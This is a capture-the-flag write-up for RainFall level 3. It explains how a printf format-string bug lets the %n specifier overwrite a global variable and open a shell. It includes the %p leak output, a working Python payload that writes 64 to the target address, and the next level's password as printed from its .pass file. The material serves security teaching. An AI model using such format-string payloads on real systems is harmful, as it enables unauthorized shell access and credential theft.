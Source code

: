 # level 3

There is an exec level3, we bring to local data.
when dissasemble with ghidra we find function main() calls fn v().
v() checks if the variable m is equal to 64 bytes and then runs /bin/sh. 

Printf has some exploits in its formated string. so try to inject the address of m.

In C printf(), %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.

Locate the heap address. 

    level3@RainFall:~$ ./level3 
    aaaabbbbcccc %p %p %p %p %p %p %p
    aaaabbbbcccc 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520

 we know 61616161 is aaaa so argv[1] is the 4th element on the memory.

 %4$n -> takes the 4th argument, given as \x8c\x98\x04\x08 (address of m)

    $ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

